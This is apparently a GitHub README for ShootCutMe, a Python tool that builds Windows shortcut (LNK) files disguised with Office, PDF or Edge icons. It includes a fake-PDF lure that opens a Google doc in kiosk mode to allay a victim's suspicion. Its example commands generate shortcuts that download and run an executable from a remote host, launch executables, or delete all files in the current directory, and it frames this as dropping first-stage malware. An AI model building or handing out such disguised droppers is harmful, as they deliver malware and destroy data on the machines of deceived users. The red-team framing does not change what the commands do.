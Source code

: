 # ShootCutMe:

LNK files are used on the most modern and advanced APT attacks.

LNK files are windows shortcut files. Using a shortcut file you can launch your own commands.

I am happy to introduce ShootCutMe a script to create LNK files.

Options Available For Version 0.1:

- Fake pdf (Will open a fake Google doc on the browser in kiosk mode to lure the victim and remove suspicions)

- You can choose between different icons (word, Adobe, Excel, PowerPoint, Edge...)

- You can choose what you want to accomplish with the LNK file: download an executable, download and load an executable, execute an executable)
  Using the LNK file you can drop your first-stage malware and complete your red teaming engagement successfully.

## Photo:
![scan](/shootcutme.png)
## Demo:

[![ShootCutMeDemo](https://img.youtube.com/vi/gtsenuVOE38/0.jpg)](https://www.youtube.com/watch?v=gtsenuVOE38)



## Install:

```cmd
python -m venv lnkenv
lnkenv\Scripts\activate.bat
python -m pip install -r requirements.txt
```

## Examples:

### Download File:

```cmd
python shootcutme.py --icon excel --name test1 -d http://10.0.3.90:8081/file.txt fileNameAfterDownload.txt D:\LNKtest
```

### Launch Executable:

```cmd
python shootcutme.py --icon word --name test2 -ex exeToLaunch.exe
```

### Fake PDF

```cmd
python shootcutme.py --icon edge --name <shotcutFileName> -fp <googleDocUrl> <executableToLaunch>
```

### Download And Execute:

```cmd
python shootcutme.py --icon pdf --name <shortCutFileName> -dl http://10.0.3.90:8081/example.exe exampleTest.exe D:\LNKtest
```

### Delete all files on the current directory:

```cmd
python shootCutMe.py -n test1.pdf --icon pdf --delete
```
